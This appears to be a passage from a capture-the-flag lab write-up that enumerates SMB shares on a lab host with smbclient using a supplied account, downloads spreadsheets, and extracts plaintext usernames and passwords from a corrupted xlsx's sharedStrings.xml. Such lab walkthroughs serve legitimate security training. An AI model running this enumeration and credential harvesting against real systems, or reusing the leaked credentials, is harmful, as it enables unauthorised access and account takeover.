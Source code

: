 ## Enumerating SMB

```bash
smbclient -L //10.10.11.51 -U rose --password 'KxEPkKe6R8su'
```
```
Can't load /etc/samba/smb.conf - run testparm to debug it

	Sharename       Type      Comment
	---------       ----      -------
	Accounting Department Disk
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share
	SYSVOL          Disk      Logon server share
	Users           Disk
SMB1 disabled -- no workgroup available
```

Get the files in the share
```bash
smbclient //10.10.11.51/Accounting\ Department -U rose --password 'KxEPkKe6R8su'
```
```
smb: \> dir
  .                                   D        0  Sun Jun  9 11:52:21 2024
  ..                                  D        0  Sun Jun  9 11:52:21 2024
  accounting_2024.xlsx                A    10217  Sun Jun  9 11:14:49 2024
  accounts.xlsx                       A     6780  Sun Jun  9 11:52:07 2024

		6367231 blocks of size 4096. 924956 blocks available
smb: \> mget *
```

## Password leak in corrupted xlsx

The xlsx is corrupted but can be treated as a zip, once unzipped the file structure is apparently standard, and what we're interested in is mostly in `xl/sharedStrings.xml`
```bash
xq -r '.sst.si[].t."#text"' sharedStrings.xml
```
```
First Name
Last Name
Email
Username
Password
Angela
Martin
angela@sequel.htb
angela
0fwz7Q4mSpurIt99
Oscar
Martinez
oscar@sequel.htb
oscar
86LxLBMgEWaKUnBG
Kevin
Malone
kevin@sequel.htb
kevin
Md9Wlq1E5bZnVDVo
NULL
sa@sequel.htb
```